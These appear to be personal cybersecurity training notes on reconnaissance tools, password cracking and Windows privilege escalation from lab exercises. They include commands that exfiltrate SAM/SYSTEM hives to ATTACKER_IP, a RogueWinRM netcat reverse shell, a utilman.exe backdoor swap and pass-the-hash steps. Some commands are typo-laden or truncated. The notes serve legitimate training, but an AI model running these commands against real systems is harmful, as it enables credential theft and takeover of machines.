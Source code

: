 ## Table of Contents

    - [burpsuite:](#burpsuite:)

Cybersecurity training/commands/notes:
- `whois`
- `request` and response protocol (RFC 3912)
	- a `whois` server listens on TCP port `43` for incoming requests. 
	- The `domain registrar` is responsible for maintining the `whois` record
	- `Registrar`: Via which registrar was the domain name registered
	- Contact info
	- Creation, update, EXP dates: When was the domain name first registered>
```bash
nmap <target IP address or hostname>	

msfconsole (metasploit 0 start scanning for vulnerability and launch attacks.)

aircrack-ng <path to the capture file>
	to crack a WOA/WPA2-PSK password you can use:
	aircrack-ng <path to the capture file>
	aircrack-ng capture.cap -w <path to the wordlist>
```

### burpsuite:
- A web application security testing tol used for testing the security of web applications. It can be used for intercepting and modifying HTTP Traffic and testign for vukn


[John The Ripper - Password cracking]
	-used for testing strength of passwirds, can be used to crack passwords in various formats such as unix, windows LM and NTLM hashes and more. TO USE:
```bash
john <path to the password file>
(For Unix passwd): john /etc/shadow
```


`Hydra`: A network login cracker used for testing the strength of passwird for various services such as FTO, SSH, Telnet, and more.:
```
hydra <target IP address ir hostname> <service> <options>

To cracj an FTP Server password: hydra -l <username> -P <path to the password file>
```


`dig`, the acronym for “Domain Information Groper,” if you are curious. Let’s use dig 


`Nikto`: Nikto is a web server scanner used for testing the security of web servers. It can be used to test for various vulnerabilities such as outdated software, misconfigurations, and more. To use Nikto, you can use the following command:


```bash
nikto -h <target IP address or hostname>

nikto -h example.com

nslookup <hostname/IP Adress> [-type=mx, -debug]
```
`nslookup` is most often used by system administrators and network 
engineers to troubleshoot DNS-related issues such as DNS server configuration problems, DNS cache poisoning attacks, and DNS lookup failures. 

It can also be used to perform reconnaissance during penetration testing and other security assessments, as it can reveal information about the target network infrastructure and domain name system.

DNS lookup tools, such as nslookup and dig, cannot find subdomains on their own. The domain you are inspecting might include a different subdomain that can reveal much information about the target

https://dnsdumpster.com/ - look for subdomains. Offers detailed answers to DNS queries such as DNSDumpster.
OSINT^^^^ ~ Used to map the organization companies networks

http://onnii6niq53gv3rvjpi7z5axkasurk2x5w5lwliep4qyeb2azagxn4qd.onion/thread-627.html



to check a user assigned set of priveleges:
`whoami /priv`
https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants - Complete list of system variables.
				Only those that allow esacalation are of interest.



--SeBackup/SeRestore--
allows users to read and write to any file in the system, ignoring any dynamic access control list (DACL) in place already
		**Tasks consists of copying the SA< and SYSTEM registry hives to extract the local administrator's password hash

	>to backup the SAM and SYSTEM hashes `C:\> reg save hklm\system C:\Users\THMBackup\system.hive
										 `C:\> reg save hklm\sam C:\

			Use SMB or another service to relay hash contents back to machine through smb2support EX:
				smb2support -username THMBackup -password CopyMaster555 public share

This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox: 

Command Prompt
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
	-then use impacket to retrieve the users'password hashes: python /opy/impacket/secretsdump.py -sam system.hive LOCAL

>>Perform a pass the hash attack and gain access to the target machine SYSTEM privleges:


---RDP COMMAND LINUX -> WINDOWS--

sudo apt-get install freerdp2-x11

xfreerdp /u:<username> /p:<password> /v:<ip-address-of-target-machine>



--SeTakeOwnership--


This privelege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possiblities for an attacker to elevate priveleges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. 

	> If enabled then use `utilman.exe` to escalate priveleges ~ Utilman is a built it application for providing ease of access options during the lock screen.
		-gain SYSTEM priv's once original binary for any payloar is used.

	>Take ownership of it: `takeown /f C:\Windows\System32\Utilman.exe
		-Being own of a file doesn't give privleges over it, but being the owner you can assign yourself priveleges you need. 

			~to give full Ownership over utilman.exe to the `User`:
			C:\> `icacls C:\Windows\System32\Utilman.exe` /grant THMTakeOwnership:F

			~replace utilman.exe with a copy of cmd.exe> copy cmd.exe utilman.exe
				to triget utilman lock screen from start button
				C:\Windows\System32\> copy cmd.exe utilman.exe



-- Selmpersonate / SeAssignPrimaryToken --

allow a process to impersonate other users and act other on the users' behalf. Impersonation consists of being able to spawna process or thread under the security contect of another user.
		-Think of FTP service 1-1 relation

if user A logs in to the FTP service and a {FTP USER} has impersonation privileges, it can borrow Ann's access token and use it to access her files.  	

In windows LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have Selmpersonate + SeAssignPrimaryToken priveleges.
	IIS also create similar deafulat accounts called "iis appool/defaultapppool" For web applications.



Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

http://MACHINE_IP/

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for 

RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the C:\tools\ folder.


exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service
	-Port 5985 is a port that exposes a Powershell console to be used remotely through the network.

	if attacker has selmpersonate privileges: Can execute any command on behalf of the connecting user, which is SYSTEM
		~Basically equal to getting ssh root priveleges but with powershell.

Attacker can start a fake WinRM service on port 5985 and catch the authentication attemp made by the BITS service when starting if the attacker has Selmpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

	Before runnin exploit start nc listener to receive a reverse shell:

	nc -lvp 4442

	c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
	From the Web Shell:
				-p : specifies the executable to be run by the exploit
				-a : specifies arguments to pass to the executable
					since we want a reveseshell against our attacker machine, the arguments to netcat will be:
				-e cmd.exe ATTACKER_IP 4442




--AUTOMATED PRIVELEGE ESCALATION TOOLS: 
WinPEAS- script developed to enumerate the target system to uncover privelege escaltion paths. Can find more info from precompiled exe or .bat script

PrivescCheck- PowerShell script that searches common privelege escalation on the target system. It provides an alternative to WinPEAS without requiring executing of a binary file.
!!!!!!!=To run on target may need to bypass the execution policy restrictions. Use: Set-ExecutionPolicy cmdlet as shown below>>
	>Set-ExecutionPolicy Bypass -Scope - process -Force
	>..\PrivescCheck.ps1
	>Invoke-privescCheck


WES-BG- Windows Exploit Suggester - Next Generation
Eploit suggesting script. Functions the same way as WinPEAS however it doesn't require the download and execution of a binary script.
	-Python scripy
	-once downloaded `wes.py --update
	-to use will need to run `systeminfo` on target system. Dont forget ti direct the output to a .txt file you will need to move on your attacking machine.


meterpreter> multi/recon/local_exploit_suggester
	-Lists vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.




















































